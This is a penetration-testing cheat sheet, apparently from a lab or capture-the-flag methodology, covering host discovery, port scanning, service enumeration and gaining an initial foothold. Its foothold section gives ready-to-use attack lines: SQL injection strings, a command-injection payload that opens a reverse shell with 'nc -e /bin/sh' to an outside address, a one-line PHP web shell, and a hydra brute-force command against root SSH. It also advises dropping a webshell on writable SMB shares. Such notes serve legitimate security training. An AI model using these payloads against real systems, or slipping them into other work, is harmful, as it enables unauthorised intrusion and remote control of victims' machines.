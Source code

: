 ## 1\. Recon & Enumeration

### 1.1 Host Discovery

`nmap -sn 10.10.10.0/24       # Ping sweep fping -a -g 10.10.10.0/24    # Fast sweep`

_Why:_ Find live hosts in scope.

### 1.2 Port Scanning

`nmap -sC -sV -p- -T4 <IP>    # Full scan with default scripts nmap -A -T4 <IP>             # Aggressive scan (OS, versions, scripts)`

_Why:_ Identify open ports, versions, services.

### 1.3 Service Enumeration

-   **Web**:

    `whatweb http://<IP> nikto -h http://<IP> gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt feroxbuster -u http://<IP> -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt`

-   **SMB**:

    `enum4linux -a <IP> smbmap -H <IP> smbclient -L //<IP>/ -N`

-   **FTP**:

    `ftp <IP>`

-   **SSH**:

    `hydra -l root -P rockyou.txt ssh://<IP>`

_Why:_ Each service may leak info, creds, or be exploitable.

* * *

## 2\. Initial Foothold

### 2.1 Exploit Web Vulns

-   **SQLi**:

    `' OR 1=1-- admin'#`

-   **Command Injection**:

    `; id && whoami | nc -e /bin/sh 10.10.14.7 4444`

-   **File Upload (PHP shell)**:

    `<?php system($_GET['cmd']); ?>`

### 2.2 Exploit Weak Services

-   Anonymous FTP access → check for hidden files.
-   SMB shares with read/write access → drop webshell.
